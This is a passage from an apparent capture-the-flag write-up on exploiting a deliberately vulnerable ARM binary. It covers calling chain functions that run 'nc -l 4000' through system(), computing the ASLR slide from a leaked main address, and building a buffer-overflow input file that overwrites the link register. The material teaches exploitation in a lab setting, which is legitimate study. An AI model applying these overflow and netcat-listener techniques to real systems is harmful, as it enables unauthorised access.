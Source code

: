 As mentioned in the challenge, our task is to call the function **chain1** followed by **chain2**. Calling these functions in a chain will open a netcat listener on the device on port 4000.

{% highlight c %}

void my_strcpy(char *dst, const char *src){
    while ((*(dst++) = *(src++)));
}

void chain1(){
    printf("Executing first chain.\n");
    my_strcpy(command,"nc -l 4000");
}

void chain2(){
    printf("Executing second chain.\n");
    system(command);
}
{% endhighlight %}

Anothing thing we must be aware of is the slide. The slide is essentially a random value added to the start address of the binary to make sure all the addresses are slid. This program has a deliberate information leak where it dumps out the address of the main function. We can find the slide by subtracting this address of the main function in the running binary and the address of the main function in Hopper.

let's run the binary again with a random argument.

![1]({{site.baseurl}}/images/posts/arm/14.png)

The address of the main function is 0x102693d50

and the address in the binary is 0x100007d50

![1]({{site.baseurl}}/images/posts/arm/27.png)

We can find the slide by subtracting the addresses. You can use python or any hex calculator (for e.g https://www.calculator.net/hex-calculator.html) to subtract these addresses

{% highlight c %}
>>> hex(0x102693d50 - 0x100007d50)
'0x268c000'
{% endhighlight %}

So the slide in this case is 0x268c000. Using this, we can find the actual address of the **chain1** and the **chain2** function. We just need to add the slide to their addresses. 

**It is important to note that the slide on each run will be different.**

The idea here is to keep entering input that would overwrite the lr (link register). After some attempts, we find that the following input overwrites the lr (link register) by CCCCCCCC which is \x43\x43\x43\x43\x43\x43\x43\x43.

Create a **hax.bin** file in the same folder using the below command.
{% highlight c %}
echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x43\x43\x43\x43\x43\x43\x43\x43" > hax.bin
{% endhighlight %}
